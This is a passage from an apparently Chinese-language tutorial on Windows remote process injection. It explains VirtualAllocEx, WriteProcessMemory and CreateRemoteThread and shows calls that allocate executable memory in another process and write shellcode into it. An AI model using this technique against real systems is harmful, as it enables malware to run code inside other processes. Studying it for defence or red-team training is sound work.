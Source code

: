 ```php
LPVOID VirtualAllocEx(
  [in]           HANDLE hProcess,
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

- hProcess：进程的句柄。该函数在该进程的虚拟地址空间内分配内存，句柄必须具有**PROCESS\_VM\_OPERATION**访问权限
- lpAddress：保留页面的内存地址；一般用NULL自动分配
- dwSize：要分配的内存区域的大小，以字节为单位
- flAllocationType：内存分配的类型
- flProtect：该内存的初始保护属性

```php
remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE)
```

3、WriteProcessMemory

```php
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);
```

- hProcess：要修改的进程内存的句柄。句柄必须拥有对进程的PROCESS\_VM\_WRITE和PROCESS\_VM\_OPERATION访问权限
- lpBaseAddress：要写的内存首地址
- lpBuffer：指向要写的数据的指针
- nSize：要写入的字节数
- lpNumberOfBytesWritten：指向一个变量的指针，该变量接收传输到指定进程的字节数。该参数是可选的。如果*lpNumberOfBytesWritten*存在**空**，则忽略该参数。

```php
WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
```

4、CreateRemoteThread

```php
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```
